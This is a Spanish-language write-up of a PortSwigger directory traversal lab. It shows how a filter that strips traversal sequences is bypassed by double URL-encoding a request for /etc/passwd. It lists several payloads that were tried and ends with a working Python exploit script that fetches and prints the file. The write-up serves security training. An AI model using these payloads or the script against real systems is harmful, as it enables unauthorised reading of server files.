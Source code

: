 ```yaml
---
title: "04 File path traversal, traversal sequences stripped with superfluous URL-decode"
collection: publications
category: portswigger
permalink: publications/Directory Traversal/04_File path traversal, traversal sequences stripped with superfluous URL-decode
excerpt: 'Este laboratorio contiene una vulnerabilidad en la visualización de imágenes de productos. La aplicación bloquea la entrada que contenga secuencias de path traversal. A continuación, realiza una decodificación de URL de la entrada antes de utilizarla.'
date: 2024-12-07
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'File path traversal, traversal sequences stripped with superfluous URL-decode'
---
```


![logo]({{site.url}}/images/Directory Traversal/directory-traversal-04/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Directory Traversal/directory-traversal-04/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, recuperamos el contenido del archivo `/etc/passwd`.

## Analisis

Probamos y regresamos carpetas e ingresar desde alli `../../../etc/passwd` y vemos que nos arroja error.

![Conf1]({{site.url}}/images/Directory Traversal/directory-traversal-04/conf1.png)

Probamos con la ruta relativa `/etc/passwd` y vemos que nos arroja error.

![Conf2]({{site.url}}/images/Directory Traversal/directory-traversal-04/conf2.png)

Probamos con  `....//....//....//etc//passwd`  y vemos que nos arroja error.

![Conf3]({{site.url}}/images/Directory Traversal/directory-traversal-04/conf3.png)

## URL Encode

Probamos `url encode` ya que la aplicación comprueba la secuencia de texto codificado.

![Conf4]({{site.url}}/images/Directory Traversal/directory-traversal-04/conf4.png)

Vemos que la URL se encodea y nos arroja error.

![Conf5]({{site.url}}/images/Directory Traversal/directory-traversal-04/conf5.png)

Volvemos a encodear la url que ya esta encodeada.

![Conf6]({{site.url}}/images/Directory Traversal/directory-traversal-04/conf6.png)

## Aprobado

![Aprobado]({{site.url}}/images/Directory Traversal/directory-traversal-04/aprobado.png)

```python
import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url + '/image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34'

    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```